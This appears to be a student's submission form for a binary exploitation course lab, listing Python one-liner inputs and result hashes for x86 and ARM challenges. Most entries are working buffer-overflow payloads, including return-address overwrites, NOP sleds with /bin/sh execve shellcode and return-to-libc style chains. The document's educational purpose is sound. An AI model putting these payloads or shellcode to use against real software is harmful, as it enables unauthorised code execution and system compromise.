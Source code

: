 # Submission form

Name: James Wei
NetID: jaw160230

## x86

### Part 0
Hash
5ce9894ec2edb00aeca78769a904eec3

### Part 1

* Input 

python -c 'print b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + b"\xcb\x85\x04\x08"' | ./part0x01

* Hash

231fc66d3993582eb4b56788c1f2ee15

### Part 2

* Input

python -c 'print b"A" * 32 + b"\x50\xc5\xff\xff" + b"\x90" * 100 + b"\x32\xc0\x50\x68\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"' > tmp/JamesInput

* Hash

1c1043b699e49e89c7faafd93efb8ccd

###  Part 3

* Input

python -c 'print b"\x11" * 32 + b"\c50\xa2\xe1\xf7" + b"\x90\x90\x90\x90" + b"\xcf\xb3\xf5\xf7" + b"\x20\xd4\xe0\xf7"' > /tmp/JamesInput

* Hash

71d885f37d30dbc2ebf1de9c374d540f

## ARM 

### Part 0

Hash
7343273d91f977f10b6927709ddffb8e

### Part 1
* Input

python -c 'print b"AAAABBBBCCCCDDDDEEEEFFFF" + b"\xa0\x05\x01\x00"' | ./part0x01


* Hash

8334e4cda54f0631bf730c02ed49d130

<hash from /home/assign0x2-p1/solve>

###  Part 2


* Input

python -c 'print b"\x11" * 24 + b"\x1c\xe5\xff\xbe" + b"\xe1\xa0\x10\x01" * 60 + b"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"' > /tmp/JamesInput

* Hash

4f1c7f73637a4f3d09c3258529bacf2b

### Part 3

* Input

python -c 'print b"\x22" * 24 + b"\xfc\x81\xeb\xb6" + b"\x6c\xab\xf6\xb6" + b"BUFF" + b"\xc8\x79\x37\xb6"' > tmp/JamesInput

* Hash

65f8e63a7a834467209678c2131b63b9


